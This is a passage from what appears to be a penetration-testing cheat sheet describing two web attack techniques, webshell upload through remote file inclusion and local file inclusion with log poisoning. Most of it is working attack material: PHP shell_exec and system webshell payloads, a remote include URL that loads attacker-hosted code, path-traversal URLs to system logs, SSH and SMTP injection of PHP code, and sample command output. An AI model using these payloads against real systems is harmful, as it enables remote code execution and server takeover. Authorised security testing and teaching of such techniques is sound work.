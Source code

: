 #### Technique 15. Webshell upload by exploiting a remote file include (RFI) vulnerability
```
Example
➤ Step 1. Review the content (php settings) of the page "/phpinfo.php" (e.g., identified with dirbuster)
     	   => allow_url_fopen   : On  => potential RFI
     	   => allow_url_include : On  => potential RFI	

➤ Step 2. Create a webshell and host it on a publicly available Web server
           Examples:
	   - jeff@kali:~/$ echo "<?php echo shell_exec('uname;whoami;id;pwd;ls');?>" > webshell.php
	   - jeff@kali:~/$ echo "<?php echo shell_exec('uname;whoami;id;pwd;ls');?>" > webshell
	   - jeff@kali:~/$ sudo python3 -m http.server 80

➤ Step 3. Find and exploit a Remote File Include (RFI) flaw using Burp proxy to execute OS commands with your webshell
           Example:
           - http://Website/index.php?p=http://x.x.x.x/webshell.php
	   - http://x.x.x.x/application/fileviewer.php?p=http://x.x.x.x/webshell
```

#### Technique 16. Webshell upload by exploiting a local file include (LFI) vulnerability
```
Example
➤ Step 1. You find a website during an internal penetration test that is vulnerable to a Local File Include vulnerability and you can read log files such as '/var/log/auth.log' and '/var/log/mail' thanks to the LFI flaw.
	   Examples:
	   > http://website/index.php?lang=../../../../var/log/auth.log
	   > http://website/index.php?lang=../../../../var/log/mail

➤ Step 2. Add a malicious PHP webshell in the log files '/var/log/auth.log' and '/var/log/mail', if you can attempt to log into the SSH server 
	   or if you can log anonymously into the SMTP server of the Linux server. 
 	   Examples:
	   -[SSH] root@kali:~# ssh '<?php echo system($_GET["cmd"]); exit; ?>'@X.X.X.X
	   -[SMTP] root@kali:~# telnet X.X.X.X 25
 	                        Trying X.X.X.X...
 	                        Connected to X.X.X.X.
 	                        Escape character is '^]'.
 	                        220 straylight ESMTP Postfix (Debian/GNU)
 	                        FROM anonymous@straylight
 	                        502 5.5.2 Error: command not recognized
 	                        AIL FROM: anonymous@straylight
 	                        250 2.1.0 Ok
 	                        RCPT TO: <?php echo shell_exec("id;pwd;uname -a;2>&1"); ?>
 	                        501 5.1.3 Bad recipient address syntax

➤ Step 3. Execute the PHP Webshell stored in the log files '/var/log/auth.log' and '/var/log/mail' via via the Local File Include vulnerability. 
	   Examples:
	   > http://website/index.php?lang=../../../../var/log/auth.log&cmd=whoami
	     + HTTP response:  uid=33(www-data) gid=33(www-data) groups=33(www-data)
	     
	   > http://website/index.php?lang=../../../../var/log/mail
	     + HTTP response containg the result of our OS commands:
	       <html>
	       <SNIP>
	       Aug 23 18:45:28 straylight postfix/smtpd[2886]: connect from unknown[X.X.X.X]
	       Aug 23 18:46:36 straylight postfix/smtpd[2886]: warning: Illegal address syntax from unknown[X.X.X.X] in RCPT command: 
	       uid=33(www-data) gid=33(www-data) groups=33(www-data)
```